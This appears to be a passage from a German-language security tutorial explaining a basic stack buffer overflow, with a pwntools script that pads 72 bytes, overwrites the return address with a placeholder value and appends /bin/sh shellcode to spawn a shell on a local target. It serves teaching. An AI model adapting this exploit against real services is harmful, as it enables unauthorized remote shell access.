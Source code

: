 # 4. Beispiel: Buffer Overflow Exploit mit Python

Im folgenden Beispiel wird ein einfacher Buffer Overflow Exploit skizziert. Das Ziel ist es, den Überlauf in einer hypothetischen, fehlerhaften Anwendung auszunutzen, um den Programmfluss zu manipulieren. (Hinweis: Dies ist ein vereinfachtes Beispiel zur Demonstration.)

#### 4.1 Szenario

* **Ziel:**\
  Eine Anwendung liest eine Benutzereingabe in einen Puffer ein, ohne die Eingabelänge zu überprüfen.
* **Schwachstelle:**\
  Überschreitet die Eingabe die erwartete Puffergröße, kann der Angreifer den Rücksprungzeiger (Return Address) überschreiben.

#### 4.2 Exploit-Aufbau

1. **Puffergröße ermitteln:**\
   Angenommen, der Puffer hat eine Größe von 64 Byte.
2.  **Shellcode einfügen:**\
    Erstelle einen Shellcode, der z. B. eine Shell startet. Pwntools kann dir dabei helfen:

    ```python
    from pwn import *

    # Beispiel: Erzeuge einen einfachen Shellcode für Linux (spawn /bin/sh)
    shellcode = asm(shellcraft.sh())
    ```
3. **Offset und Padding:**\
   Finde den Offset zum Rücksprungzeiger. Angenommen, er liegt bei 72 Byte.
4. **Return Address festlegen:**\
   Setze den Rücksprungzeiger auf eine Adresse, die auf deinen Shellcode zeigt. In einer realen Umgebung erfordert dies oft das Deaktivieren von ASLR oder das Nutzen von ROP-Gadgets.

#### 4.3 Exploit-Skript (Beispiel)

```python
#!/usr/bin/env python3
from pwn import *

# Zielparameter
target = "127.0.0.1"
port = 9999

# Lokale Verbindung zum Ziel herstellen (oder Remote)
io = remote(target, port)

# Ermittelter Offset zum Rücksprungzeiger
offset = 72

# Erzeuge den Shellcode (spawn /bin/sh)
shellcode = asm(shellcraft.sh())

# Bestimme die Zieladresse, auf die der Rücksprungzeiger zeigen soll.
# Diese Adresse muss auf den Shellcode im Puffer zeigen.
# Beispieladresse (in einer echten Umgebung durch Debugging ermitteln):
ret_addr = p32(0xdeadbeef)

# Padding: Fülle bis zum Offset
payload = b"A" * offset

# Füge den Return Address hinzu
payload += ret_addr

# Füge den Shellcode hinzu
payload += shellcode

# Sende den Exploit
io.sendline(payload)

# Wechsel in den interaktiven Modus, um die Shell zu nutzen
io.interactive()
```

**Erklärung:**

* Wir nutzen pwntools, um eine Verbindung zum Ziel aufzubauen.
* Der Payload besteht aus:
  * **Padding:** Füllt den Puffer bis zum Rücksprungzeiger (72 Byte "A").
  * **Return Address:** Überschreibt den Rücksprungzeiger mit einer Beispieladresse (0xdeadbeef).
  * **Shellcode:** Wird an die Payload angehängt. Wenn die Rücksprungadresse korrekt auf den Beginn des Shellcodes zeigt, wird dieser ausgeführt.
